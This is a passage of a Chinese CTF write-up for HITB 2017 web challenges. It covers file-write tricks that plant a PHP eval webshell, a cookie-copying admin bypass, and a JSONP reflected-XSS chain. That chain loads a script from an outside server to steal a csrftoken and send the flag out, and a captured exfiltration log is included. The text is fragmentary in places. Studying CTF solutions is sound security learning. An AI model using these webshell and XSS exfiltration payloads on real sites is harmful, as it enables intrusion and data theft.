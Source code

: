经过测试后面三个均无法利用

看别人wp发现

Payload : `con=<?php @eval($_POST[cmd]);?>&file=test.php/1.php/..`

`con=<?php @eval($_POST[cmd]);?>&file=../orz.php/.`

原理不明

### Website

注册登录后,发现识别用户的cookie是username,是一个奇奇怪怪的base64编码的内容,扫目录发现了test.php,看到base64编码后的内容以为可以用这个来得到admin的cookie后面无论用什么参数都没用,于是直接把页面里的内容复制到cookie里就成了admin.emmmmm......

getflag:HITBCTF{j50nP_1s_VulN3r4bLe}

#### 思路一

一个xss，waf并不严格，有好多种做法，存在多处xss。

首先先随便注册个账号登录

site填入自己的服务器地址，发现他会访问。

于是入口点就是：构造一个富含xss的链接发给他。

xss的地方很多，最好利用的是

这个getInfo接口，返回 `jsonp` 数据，存在反射型xss,而且没上waf。

`jsonp` 的 `referer` 检查，可以利用302跳转解决。

于是我们的攻击链扩充到了：

```
链接->302 jsonp xss
```

问题是如何拿到ﬂag？

经过测试发现ﬂag是通过 `getﬂag` 接口获取

需要的参数是 `csrftoken`

```
http://47.88.218.105:20010/getflag.php?csrftoken=c1a10e97f9c2fa973299fa3154f38b58
```

能否有权限获取ﬂag是读取 `jsonp` 中的 `username` ，这个 `username` 是后端解密 `cookie` 中的 `username` 得到的明文

`cookie` 中的 `username` 受 `http-only` 保护不可读取，也没有能显示出 `cookie` 中加密的 `username` 的页面，于是只能控制admin去访问ﬂag页面然后返回给我们了。

整个利用如下：

`链接 --> 302到 jsonp xss --> 提取 jsonp 中 csrftoken 字段 --> xhr 控制读取 flag --> 返回 flag 到 xss 平台` 发送链接的php内容

`b.js` 内容:

```
bash Data: {'flag':'HITB{j50nP_1s_VulN3r4bLe}','csrftoken':'058807fed91d1b8807688bd258710cbe'} IP: 47.88.218.105 Date and Time: 25 August, 2017, 12:31 pm Referer: http://47.88.218.105:20010/action.php? callback=%3Cscript+src=%22http://123.206.216.198/b.js%22%3E%3C%2Fscript%3E
```
